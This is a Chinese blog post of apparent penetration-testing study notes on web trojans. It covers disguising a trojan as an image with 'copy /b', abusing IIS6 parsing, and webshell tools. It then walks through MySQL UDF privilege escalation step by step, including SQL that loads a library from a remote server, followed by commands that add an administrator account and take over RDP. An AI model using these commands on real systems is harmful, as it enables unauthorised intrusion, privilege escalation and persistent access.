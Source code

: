 ```yaml
---
title: trojan控制服务器
date: 2022-04-18 10:36:42
categories:
- CS
- security
tags:
- trojan
toc: true
---
```

**摘要：本文介绍了trojan,和常用的trojan工具**
<!-- more -->
# 前言

---
# 一.必备知识
文件上传漏洞：用户通过上传trojan文件，获得了管理网站/服务器的权限
关键点：网站必须提供上传功能，知道trojan上传路径，trojan能被执行
trojan:伪装成正常程序的恶意程序，一旦运行可以控制电脑
网页trojan:伪装成正常网页的恶意网页(如x.php)，一旦运行可以控制网站或服务器
webshell:一个文件，后缀名是asp,php,aspx等，功能是管理网站
小马：功能少，代码量小的trojan
大马：功能多，代码量大的trojan
通信过程：
```
1.输入网址
2.浏览器把网址发送给DNS服务器并解析出ip
3.浏览器拿到ip后，向那个ip服务器发起HTTP协议
4.服务器会得到浏览器请求，并做出响应
5.浏览器拿到响应，生成页面
```

# 二、制作图片trojan
一般网站都不允许上传asp,php,aspx等后缀的文件，所以我们要改成图片的格式
```
copy 原有图片.jpg/b + trojan.asp 要新生成的图片马.jpg
```
中间件(Nginx,Apache,Tomcat,IIS)：提供网站服务，并能解析webshell

IIS6.0漏洞:后缀名为cer,cdx,asa的文件，统一解析成asp。比如上传了1.cer，最后执行的名字是1.asp。所以把图片马的后缀改成cer

Apache解析php,Tomcat解析java

为什么不直接把ASP文件后缀名改成cer：每个文件都是有特征的

如何收集网站的中间件信息：Wappalyzer插件

# 三、找路径

# 四、管理webshell
管理webshell的工具：菜刀、蚁剑、冰蝎、格斯兰(kali默认安装了weevely,在命令行执行即可)

# 五、提权
```
通常我们在拥有一个webshell的时候，一般权限都是WEB容器权限(即中间件权限network service)。
因为我们上传木马是被中间件解析的，所以通过木马控制服务器现在的权限是中间件的权
限。中间件的权限是网站管理员设置的。如在iis就是iis用户组权限，在apache 就是
管理员权限，e一般都是权限较低，均可执行一些普通命令，如查看当前用户，网络信
息，ip信息等。如果我想进行内网渗透就必须将权限提权到最高，如系统权限 超级管理
员权限。更高的权限方便我们在后续的渗透中，扩大范围测试。
```
sqlmap中的os-shell也是同样原理，sql-shell  是数据库权限。
## UDF提权
UDF(User Defined Function用户自定义函数)。用户可以通过自定义函数实现在mysql中无法方便实现的功能，添加的新函数都可以在sql语句中调用，就像调用本机函数一样

udf.dll(windows)/udf.so(linux)是一个函数的脚本，这个脚本的作用是 提供了 mysql执行系统命令的功能。

条件：
```
MySQL数据库没有开启安全模式。
已知的数据库账号具有对MySQL数据库insert和delete的权限，最好是root最高权限。
shell有写入到数据库安装目录的权限。
```

```
udf.dll 如何处理
1、cmd命令行处理
certutil -encodehex -f -v udf64.dll w32x.txt 4 
2、数据库处理
select hex(load_file('/udf/udf64.so')) into dumpfile 'l64.hex';
3、远程包含导入
select load_file('//你的服务器/l64.so') into dumpfile 
'/www/server/mysql/lib/plugin/l64.so';
```
步骤：
```
1.select @@version_compile_os,@@version_compile_machine,@@version #判断版本
2.select @@plugin_dir ;     show variables like 'plugin%';#判断路径
3.select 0x3weqwe.. into dumpfile '/www/server/mysql/lib/plugin/1.so'
#写入文件
4.drop function sys_eval
create function sys_eval returns string soname '1.so';#生成函数
5.select sys_eval('whoami') #执行函数
```
![20220418164608](https://cdn.jsdelivr.net/gh/zhangsx19/PicBed/images_for_blogs20220418164608.png)

注意：
outfile函数可以导出多行，而dumpfile只能导出一行数据；
outfile函数在将数据写到文件里时有特殊的格式转换，而dumpfile则保持原数据格式

宝塔(可以短时间让电脑变成服务器，并增加安全防护)管理数据库：要知道端口->路径->登录进入管理网站->登录数据库->管理数据库
phpmyadmin：http://IP:888/pma

## 补丁查询
![20220418113823](https://cdn.jsdelivr.net/gh/zhangsx19/PicBed/images_for_blogs20220418113823.png)

0.当遇到连执行命令的权限都没有的时候，直接上传一个新的cmd.exe

1.执行`systeminfo`命令查询目标服务器打过哪些补丁，将执行结果复制放到[查询网站](https://i.hacking8.com/tiquan)->返回exp

2.找到哪些是可以利用的，得到system权限

3.创建用户
```bash
net user qiesi abc123 /add   #添加用户，默认普通用户没有登录远程服务器的权限
net user qiesi /delete #删除用户
net localgroup administrators qiesi /add  #将用户加入到管理员组
```

4.远程登录：在本地输入mstsc

找ip:在目标服务器命令行输入ping 目标网址(要删去http头)

在远程桌面连接输入ip或ip:3389 /admin

3389：有的时候远程连接的默认端口不是3389

/admin：有时遇到目标服务器连接不上，超出了最大允许连接范围->把别人挤掉

---
# 总结

---
# 参考资料
1.[udf提权](https://www.jianshu.com/p/536d7fccb852)